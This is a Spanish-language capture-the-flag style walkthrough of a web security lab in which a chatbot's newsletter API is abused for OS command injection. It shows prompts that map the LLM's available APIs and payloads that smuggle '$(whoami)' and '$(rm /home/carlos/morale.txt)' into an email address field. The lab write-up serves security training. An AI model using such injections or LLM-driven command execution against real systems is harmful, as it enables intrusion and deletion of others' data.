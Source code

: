 
---

## 🧨 Lab: Explotación de vulnerabilidades en LLM APIs (Command Injection)

**Objetivo:**  
Eliminar el archivo `morale.txt` del directorio `/home/carlos` aprovechando una vulnerabilidad de **OS Command Injection** a través de una API expuesta al LLM.

---

### 📚 Conocimientos aplicados:

- Mapeo de la superficie de ataque del LLM.
    
- Inyección de comandos del sistema operativo (`$(...)`) en contextos vulnerables.
    
- Explotación indirecta mediante una API controlada por el LLM.
    

---

### ✅ Solución paso a paso:

1. 💬 Iniciar **Live Chat**.
    
2. Preguntar:
    
    ```
    what APIs do you have access to?
    ```
    
    ➤ El LLM responde que tiene acceso a:
    
    - Password Reset
        
    - Newsletter Subscription ✅
        
    - Product Information
        
3. 📌 Analizar:
    
    - La **Newsletter Subscription API** puede estar ejecutando comandos del sistema para enviar correos.
        
    - Usaremos esta API para intentar inyectar comandos.
        
4. Preguntar:
    
    ```
    what arguments does the Newsletter Subscription API take?
    ```
    
    ➤ El LLM confirma que espera una dirección de correo como argumento.
    
5. Probar interacción con:
    
    ```
    attacker@YOUR-ID.exploit-server.net
    ```
    
    ➤ Confirmar que llega un correo → prueba exitosa.
    
6. Intentar ejecución de comando:
    
    ```
    $(whoami)@YOUR-ID.exploit-server.net
    ```
    
    ➤ Si el correo llega a algo como `carlos@...` → **el comando se ejecutó correctamente**.
    
7. Ejecutar payload para eliminar el archivo:
    
    ```
    $(rm /home/carlos/morale.txt)@YOUR-ID.exploit-server.net
    ```
    
    ➤ Aunque el LLM diga “something went wrong”, si el archivo se elimina, ¡**lab resuelto**!
    

---

### 🧠 Lección clave:

Este laboratorio demuestra cómo APIs aparentemente inofensivas (como una suscripción por correo) pueden ser un canal para inyección de comandos si están **mal validadas** y el LLM tiene acceso a ellas.

---
![image](https://github.com/user-attachments/assets/44b3b6f0-dca8-4d0a-8cea-cefbc7dc5c92)
